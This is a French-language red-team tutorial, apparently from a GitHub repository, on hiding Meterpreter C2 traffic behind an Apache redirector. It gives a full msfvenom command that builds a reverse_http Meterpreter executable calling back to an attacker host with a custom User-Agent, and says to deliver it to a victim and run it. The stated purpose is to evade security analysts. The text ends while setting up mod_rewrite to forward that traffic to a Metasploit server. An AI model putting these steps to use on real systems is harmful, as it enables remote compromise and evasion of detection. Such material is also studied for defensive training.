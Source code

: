 ```
```

En utilisant Meterpreter, nous avons la possibilité de configurer divers aspects de la requête HTTP , par exemple, l'agent utilisateur. Il est très courant qu'un acteur de la menace apporte un léger ajustement à l'agent utilisateur dans ses charges utiles HTTP/HTTPS C2. C'est dans chaque requête HTTP, et elles se ressemblent toutes plus ou moins, et il y a de fortes chances qu'un analyste de la sécurité oublie une chaîne d'agent utilisateur modifiée. Pour cette démonstration, nous allons générer une charge utile HTTP Meterpreter Reverse à l'aide de MSFvenom ; puis nous inspecterons la requête HTTP dans Wireshark.

Génération d'une charge utile avec des en-têtes modifiés -

Génération d'une charge utile HTTP modifiée avec Meterpreter

```
root@kali$ msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 454 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe

```

Après avoir généré l'exécutable modifié et l'avoir transféré à une victime, ouvrez Wireshark sur votre hôte et utilisez le `HTTP` filtre pour afficher uniquement les requêtes HTTP . Une fois qu'il a commencé à capturer des paquets, exécutez le binaire sur le système victime. Vous remarquerez qu'une requête HTTP arrive avec notre User-Agent modifié.

![b842ee1430892fa04c092531b9383f4f](https://github.com/dsgsec/Red-Team/assets/82456829/89125bd7-90d2-4b79-89b6-6f8e0fbf4c71)

*Capture de paquets de la charge utile HTTP modifiée avec Meterpreter*

Maintenant que nous avons un champ que nous pouvons contrôler dans la requête HTTP , créons une règle Apache2 mod_rewrite qui filtre sur l'agent utilisateur "NotMeterpreter" et le transmet à notre serveur Metasploit C2.

Modification du fichier de configuration Apache - 

Cette section peut sembler intimidante, mais elle est en fait assez facile ; nous prendrons la configuration Apache par défaut et la modifierons à notre avantage. Sur les systèmes basés sur Debian, la configuration par défaut se trouve dans`/etc/apache2/sites-available/000-default.conf` .

Configuration Apache2 par défaut

```
root@kali$  cat /etc/apache2/sites-available/000-default.conf  | grep -v '#'
<VirtualHost *:80>

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        <Directory>
                AllowOverride All
        </Directory>

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>

```
